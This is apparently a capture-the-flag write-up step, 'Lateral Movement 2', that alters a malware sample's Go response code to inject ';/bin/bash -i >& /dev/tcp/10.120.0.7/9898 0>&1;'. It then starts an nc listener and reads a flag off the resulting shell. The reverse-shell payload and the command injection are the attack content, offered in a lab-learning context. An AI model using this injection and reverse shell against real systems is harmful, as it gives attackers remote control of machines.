 # Lateral Movement 2

1. Resume From [🗂 Discovery 1](../04-Discovery-1/)
2. Rev Eng `ExecuteCommands` Function in [🗂 main](../04-Discovery-1/06-main)

3. Change Malware Response in [🗂 malware.go](./03-main.go)
```
Lines: 92 to 94
	// cmd := exec.Command("bash", "-c", inputMap["command"])
	// out, _ := cmd.CombinedOutput()
	out := ";/bin/bash -i >& /dev/tcp/10.120.0.7/9898 0>&1;"
```
4. (Local PC) Start: `nc -l 0.0.0.0 9898`
5. (Local PC) Run `go run 03-main.go`
6. (Local PC: `nc`) Get Flag: MAZAPA_5b84f8d3bff36108c88c36e65dce2d77
![Petromaz Map](./06-Real-Flag.png)
